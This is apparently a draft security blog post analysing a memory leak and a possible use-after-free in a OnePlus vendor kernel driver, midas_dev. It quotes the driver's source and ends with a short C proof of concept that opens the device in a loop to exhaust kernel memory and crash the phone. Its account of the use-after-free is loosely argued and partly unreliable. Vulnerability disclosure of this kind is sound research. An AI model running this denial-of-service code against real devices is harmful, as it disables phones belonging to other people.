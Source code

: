 +++
title = "Oneplus kernel memory leak and potential use after free"
date = "2025-09-28T03:07:44+05:30"
author = "IamAlch3mist"
authorTwitter = "" #do not include @
cover = ""
tags = ["use-after-free", "memory-leak", "kernel-exploit"]
keywords = ["", ""]
description = "heh"
showFullContent = false
readingTime = true
hideComments = false
color = "" #color from the theme settings
draft = true
+++


I borrowed a OnePlus phone from a friend to experiment with the kernel. Since the kernel is open source, I started digging (hoping for an LPE). I found a couple more bugs they are for another blog post, but here’s a neat little memory leak that can be abused for DoS and a potential use‑after‑free.

I focused on vendor-specific drivers rather than the [mainline kernel](https://github.com/OnePlusOSS/android_kernel_oneplus_mt6893). The driver in question is: [`drivers/soc/oplus/midas/midas_dev.c`](https://github.com/OnePlusOSS/android_kernel_oneplus_mt6893/blob/oneplus/MT6893_R_11.0/drivers/soc/oplus/midas/midas_dev.c)


The driver exports the usual file operations with callbacks to open, close, mmap, and ioctl. 
```c
static const struct file_operations midas_dev_fops = {
	.open = midas_dev_open,
	.release = midas_dev_release,
	.mmap = midas_dev_mmap,
	.unlocked_ioctl = midas_dev_ioctl,
};
```

On open the driver an allocation happens using kzalloc with the size of struct midas_priv_info and stored in the pointer info. At 2 the allocated info is stored in privat_data member of file struct which is basically a void pointer. 

On close the info pointer is retrieved from the file struct and passed to kfree. 

```c
static int midas_dev_open(struct inode *inode, struct file *filp)
{
	int ret = 0;

	struct midas_priv_info *info = kzalloc(sizeof(struct midas_priv_info), GFP_KERNEL); // [1]  
	if (IS_ERR_OR_NULL(info))
		return -ENOMEM;

	info->mmap_addr = vmalloc_user(sizeof(struct midas_mmap_data));
	if (IS_ERR_OR_NULL(info->mmap_addr)) {
		pr_err("mmap_addr vmalloc failed!\n");
		ret = -ENOMEM;
		goto err_info_alloc;
	}

	filp->private_data = info; // [2]
	return 0;

err_info_alloc:
	kfree(info);
	return ret;
}


static int midas_dev_release(struct inode *inode, struct file *filp)
{
	struct midas_priv_info *info = filp->private_data;
	if (IS_ERR_OR_NULL(info))
		return 0;

	if (info->mmap_addr != NULL)
		vfree(info->mmap_addr);

	kfree(info); // use after free
	return 0;
}
```

There are no locks or checks on in the file->private_data. If the driver is opened multiple times (without properly closing prior handles). The file->private_data pointer can be overwritten with a newly allocated info. Which results in memory leak. 


On close the allocated memory is freed but file->private data holds reference to the info pointer and didn't set to NULL. Combined with the ability to open the driver multiple times leading to potential use-after-free. 

system user have permision to interact with the driver. 
```yaml
OP515BL1:/data/local/tmp # ls -al /dev/midas_dev
crw-rw---- 1 system system 238,   0 2025-09-28 04:53 /dev/midas_dev
```
Poc to crash the device using the memory leak.
```c
// aarch64-linux-gnu-gcc -static poc.c 

#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <errno.h>
#include <string.h>

int main(void) {

    int fd;
    for(unsigned int i = 0; i < 0xffffff; i++) {
    fd = open("/dev/midas_dev", O_RDWR);
    if (fd < 0) {
        perror("open failed");
        continue;
    }

}
    close(fd);

return 0;
}
```

{{< youtube kzA2Qn1aQik >}}
# Conclusion 
I expected good quality from oneplus it was disappointing to see such bugs. In the end I found couple more uaf.
